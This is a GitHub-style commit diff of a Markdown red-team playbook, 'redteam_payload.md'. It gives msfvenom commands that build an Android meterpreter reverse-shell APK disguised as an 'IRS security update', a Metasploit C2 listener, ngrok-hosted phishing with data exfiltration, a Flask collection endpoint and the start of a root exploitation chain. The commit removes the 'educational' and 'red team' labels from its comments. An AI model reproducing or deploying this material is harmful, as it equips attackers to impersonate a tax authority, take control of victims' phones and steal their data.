

Before and after one commit to SuzyQAttx/SecretProject, a Markdown page: redteam_payload.md, 2 parts joined by grey strips. Shown at 90% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/redteam_payload.md
+++ b/redteam_payload.md
@@ -48,11 +48,11 @@ def dns_handler(data):
     return reply.pack()
 ```
 
-## APK Payload Creation
+  APK Payload Creation
 
-### Generate Malicious APK
+  Generate Malicious APK
 ```bash
-# Use msfvenom for educational payload
+# Use msfvenom for payload
 msfvenom -p android/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4444 -o irs_security_update.apk
 
 # Alternative: Manual APK with custom payload
@@ -61,7 +61,7 @@ msfvenom -p android/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4444 -o irs_secu
 
 ### APK Manifest Permissions
 ```xml
-<!-- AndroidManifest.xml for red team APK -->
+<!-- AndroidManifest.xml for APK -->
 <uses-permission android:name="android.permission.INTERNET" />
 <uses-permission android:name="android.permission.ACCESS_NETWORK_STATE" />
 <uses-permission android:name="android.permission.READ_PHONE_STATE" />
@@ -75,9 +75,9 @@ msfvenom -p android/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4444 -o irs_secu
 <uses-permission android:name="android.permission.DEVICE_ADMIN" />
 ```
 
-## Infrastructure Setup
+  Infrastructure Setup
 
-### 1. Command & Control Server
+  1. Command & Control Server
 ```bash
 # Set up Metasploit listener
 msfconsole
@@ -91,7 +91,7 @@ exploit -j
 python3 -m http.server 8080 --bind 0.0.0.0
 ```
 
-### 2. Phishing Site Hosting
+   2. Phishing Site Hosting
 ```bash
 # Host on local network for exercise
 python3 -m http.server 80
@@ -102,7 +102,7 @@ ngrok http 80
 # Update JavaScript with your ngrok URL for data exfiltration
 ```
 
-### 3. Data Collection Endpoint
+   3. Data Collection Endpoint
 ```python
 # simple_c2.py - Educational data collection
 from flask import Flask, request, jsonify
@@ -196,11 +195,11 @@ function collectDeviceInfo() {
 }
 ```
 
-## APK Payload Functions
+  APK Payload Functions
 
-### Root Exploitation Chain
+ Root Exploitation Chain
 ```java
-// MainActivity.java for educational APK
+// MainActivity.java for APK
 public class MainActivity extends Activity {
     @Override
     protected void onCreate(Bundle savedInstanceState) {
````
Also changed, not shown: other parts of redteam_payload.md (+12 -25 lines).
